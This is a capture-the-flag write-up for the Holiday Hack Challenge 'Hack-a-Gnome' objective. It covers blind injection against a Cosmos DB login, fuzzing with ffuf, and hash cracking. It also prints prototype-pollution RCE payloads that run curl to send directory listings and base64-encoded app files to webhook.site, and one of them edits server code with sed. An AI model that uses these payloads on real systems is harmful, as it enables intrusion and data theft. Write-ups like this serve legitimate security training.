










# Hack-a-Gnome

**Difficulty**: :fontawesome-solid-snowflake:{ .red }:fontawesome-solid-snowflake:{ .red }:fontawesome-solid-snowflake:{ .red }:fontawesome-regular-snowflake::fontawesome-regular-snowflake:<br/>
**Direct link**: [Objective6.zip](https://.../)

## Objective

!!! question "Request"
    Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.

??? quote "Chris Davis"
    Hey, I could really use another set of eyes on this gnome takeover situation.

    Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!

    But every system has weaknesses if you know where to look.

    If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.

    Ready to help me turn one of these rebellious bots against its own kind?

## Hints

??? tip "Hack-A-Gnome"
    Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message.

??? tip "Hack-A-Gnome"
    Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.

??? tip "Hack-A-Gnome"
    I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).

??? tip "Hack-A-Gnome"
    Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.

??? tip "Hack-A-Gnome"
    Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the `canbus_client.py` file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.

??? tip "Hack-A-Gnome"
    There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it.

## Solution



The first challenge was just to navigate the deprecated data center to find the elevator. Once I found the challenge, there are multiple layers to it and we start with the terminal opening to a login prompt to access the Smart Gnome unit.




### Logging In

#### Username

As usual when there is a browser interface, I put the site into BurpSuiteCommunity and started interacting with the login page. I attempted to use the **Register** button to create a new account and to login with assumed wrong information.


While on the create account page, BurpSuite sent out a `GET` request for each character as it was being typed to check for availability at `/userAvailable` endpoint. I sent one of the `GET` requests to BurpSuite Repeater and began to search for errors. As was shown is some of the other challenges, sometimes an error can tell us as much, if not more, as a success will.<br/>
There are various ways to approach enumerating an unknown like what we see here but I like Repeater where I can test different payloads one at a time and view the responses. I was able to trigger the below error by testing various inputs.



!!! success "Error"
    The error response gives us our next clue!
    ```js
    {"error":"An error occurred while checking username: Message: {\"errors\":[{\"severity\":\"Error\",\"location\":{\"start\":44,\"end\":45},\"code\":\"SC1012\",\"message\":\"Syntax error, invalid string literal token '\\\"'.\"}]}\r\nActivityId: 92a39f33-b58b-4f01-9008-d277e43f7e92, Microsoft.Azure.Documents.Common/2.14.0"}
    ```

Great! With this info I am able to determine that the database is probably [Azure Cosmos DB](https://learn.microsoft.com/en-us/azure/cosmos-db/) and that it is using a SQL API. Based off the hint, we should be able to brute force a valid username, which should be a common english name. Some quick searches online or query to an LLM can easily produce a list of common english names. Moving into BurpSuite I sent the `/userAvailable` GET request to Intruder.<br/>
Using the Sniper Attack funtion and a wordlist of common english first names it is possible to find two valid usernames.



!!! warning "Response"
    A couple of things to be aware of. 
    1. BurpSuite Community has rate limiting in place. There are alternatives to finding the username without BurpSuite that can be used if this is an issue such as FFuF. 
    2. The response is 200 no matter what the payload is so that's not going to be a viable filter. It's neccessary to check the response for the `"available":false` response in order to find a valid username.
    

I found two usernames that are not available, meaning we have two targets that we can try to retrieve the password for. In order to retrieve the password with a SQL injection attack however, the name of the password field in the database is needed. This was the next big hurdle for me but eventually I saw hints in Discord pointing to the missing key. Using FFuF and a SecList wordlist for web content I enumerated the password field. 

#### Password

With half of the login found, we just have to figure out the password now. I fumbled around quite a bit for this before a comment from a helpful community member put me on the right track.<br/>
The database API is using SQL like syntax and while I was trying to test various exploits I was able to cause a 500 error. It was pointed out to me that any time you are able to cause create a failure in a database by manipulating the query, it is almost certainly a sign of SQL Injection.<br/>
I was able to confirm a boolean-based blind SQL injection vulnerability with the known username and remembering that I had triggered a syntax error when I was fingerprinting the database.

!!! example
    I used BurpSuite Repeater to craft injection payloads to confirm the vulnerability. 
    ```bash title="Test Payload"
    <USERNAME>" AND "x"="x
    ```

    - Response: `"available":false`. This is a TRUE condition as the username exists and *x* does in fact equal *x*.

    ```bash title="Negative Test"
    <USERNAME>" AND "x"="y
    ```

    - Response: `"available":true`. This is a FALSE condition as the username is known to exist and *x* does NOT equal *y*.


Using this with FFuF, I was able to enumerate the database field names. 

```bash title="Password Field Fuzzing"
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt:FIELD \
     -u "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=bruce%22%20AND%20IS_DEFINED(c.FIELD)%20AND%20%22x%22%3D%22x" \
     -H "Cookie: connect.sid=s:s%3Ah1vGP7HRJmNboHd0DOw7ijHynr2V-DY_.EFrv6aGTFvqND1%2FUYr6zMz1tRHuqtUVka9B%2FgS%2B8H1Q" \
     -H "Accept: application/json" \
     -mr '"available":false' \
     -fw 17
```

!!! success
    ```bash title="Results" hl_lines="3"
    category
    id
    digest
    Category
    ID
    username
    ```
    That's what I needed! With the right field, I can enumerate the contents. I start with extracting the digest length. It took some trial and error but I eventually worked with an LLM to develop a script first to determine the digest length, then to [extract](../artifacts/objectives/o20/digest_enum.py) the digest field's content, a 32 character hash. I plugged the hash into [Crackstation.net](https://crackstation.net/) and finally got a password!!

This is Act 3 though and logging in isn't going to be enough this time!



Logged into the Smart Gnome Control Center we have a split screen. One side has the Smart Gnome Statistics with information about the robot such as the name, model, and other stats.



On the other side is a security camera feed from the factory that shows the robot that is our target. Now that we are logged in, the objective is to hack the smart gnome and use it to power off the factory. 


#### CANBus

The security camera has a controls key above the image with instructions on how to move the gnome bot with WASD or directional arrows. There are also mouse instructions for operating the camera with zoom and pan.<br/>
As usual, I begin by exploring the page. I attempt movement with both options and received errors on the camera:


When looking in BurpSuite however, it appears as if the command worked??



The bot didn't move though...<br/>
Looking at the [hint](#hints) I get the clue about protype pollution and read up on this vulnerability.<br/>
After many trial and error attempts I figure out the the pollution trigger is the `/stats` page refresh and get a webhook!<br/>
Using the `/ctrlsignals` endpoint, I encoded the payload in CyberChef and used BurpSuite Repeater to send it, then the refresh button on the Gnome Statistics page to trigger.

```json title="Unencoded Prototype Pollution RCE Payload"
{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('curl https://webhook.site/17eeae7a-42ab-4ca9-bfb2-c55d3a06c747');x"}
```



With this, I was able to begin enumerating.

```bash title="Listing the Directory Contents"
total 84
drwxr-xr-x  1 root root  4096 Nov 21 05:31 .
drwxr-xr-x  1 root root  4096 Nov 21 05:31 ..
-rw-r--r--  1 root root   283 Oct  1 17:01 .env
-rw-r--r--  1 root root  6957 Oct  1 17:01 README.md
-rwxr-xr-x  1 root root  3310 Oct  1 17:01 canbus_client.py
drwxr-xr-x 81 root root  4096 Oct 15 15:20 node_modules
-rw-r--r--  1 root root 33884 Oct 15 15:20 package-lock.json
-rw-r--r--  1 root root   359 Oct  1 17:01 package.json
-rw-r--r--  1 root root  9867 Oct  1 17:01 server.js
drwxr-xr-x  2 root root  4096 Oct  1 17:01 views
```

Lets grab the [README.md](../artifacts/objectives/o20/README.md) and [python](../artifacts/objectives/o20/canbus_client.py) code!

```json title="Get Python Payload"
{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cat /app/*.py | base64 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
```

```json title="Get README.md"
{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cat /app/*.md | base64 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
```

I also reviewed `.env` for config information and `server.js` for how commands are processed. The `README.md` and `canbus_client.py` were the most informational though. In the python code I found the same canbus codes that returned with our movement commands.<br/>
Using `cansend`, I tested various potential canbus commands until I found one that resulted in movement of the robot!

```json title="Cansend Testing"
{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cansend gcan0 200# && cansend gcan0 201# && cansend gcan0 202# && cansend gcan0 203# 2>&1 | curl -X POST --data-binary @- https://webhook.site/17eeae7a-42ab-4ca9-bfb2-c55d3a06c747');x"}
```

I narrowed down the directional commands and then used `sed` to modify the `canbus_client.py`.

| CAN ID  | Direction |
| ------- | --------- |
| `0x202` | down      |
| `0x203` | left      |
| `0x204` | right     |
| `0x201` | up        |

```json title="Python Code Edit"
GET /ctrlsigna{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('sed -i \"s/0x656/0x201/g; s/0x657/0x202/g; s/0x658/0x203/g; s/0x659/0x204/g\" /app/canbus_client.py 2>&1 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
```

!!! success "Answer"
    With `canbus_client.py` edited, I was able to use the directional controls to navigate the robot to the switch and shut down the factory!
    

## Response

!!! quote "Chris Davis"
    Excellent work! You've successfully taken control of the gnome - look at that interface responding to our commands now.

    Time to turn this little rebel against its own manufacturing operation and shut them down for good!